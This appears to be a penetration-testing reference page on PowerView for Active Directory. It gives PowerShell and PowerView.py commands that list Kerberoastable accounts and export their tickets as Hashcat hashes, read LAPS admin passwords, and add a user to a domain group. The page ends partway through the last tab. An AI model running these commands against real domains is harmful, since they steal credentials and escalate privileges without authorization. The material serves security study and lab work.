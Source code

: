 ## Attacks

### Kerberoasting

For Kerberoasting see [here](../attacks/kerberoasting.md#attack).

### Password Change

For changing the password of an account see [here](../permissions/forcechangepassword.md).

### LAPS Password

For changing the LAPS password see here.

{% tabs %}
{% tab title="Kerberoasting" %}
{% code overflow="wrap" %}
```powershell
# Enumerate Kerberoastable accounts
Get-DomainUser * -SPN | select samaccountname
# Kerberoast the enumerated accounts
Get-DomainUser * -SPN -verbose |  Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_spns.csv -NoTypeInformation
```
{% endcode %}
{% endtab %}

{% tab title="LAPS Password" %}
{% code overflow="wrap" %}
```powershell
Get-DomainComputer "MachineName" -Properties 'cn','ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Python Version

[PowerView.py](https://github.com/aniqfakhrul/powerview.py) is an alternative for the original [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) script. Its main goal is to achieve interactive session without having to repeatedly authenticate to LDAP.

{% tabs %}
{% tab title="Connect" %}
```bash
powerview <domain>/<user>:'<pass>'@<domain> -k
```
{% endtab %}

{% tab title="Group Membership" %}
Add a user to a group:

```bash
# Add user to the group
PV > Add-DomainGroupMember -Identity <group> -Members <user>

# Confirm group membership
PV > Get-DomainGroupMember -Identity <group>
```
{% endtab %}
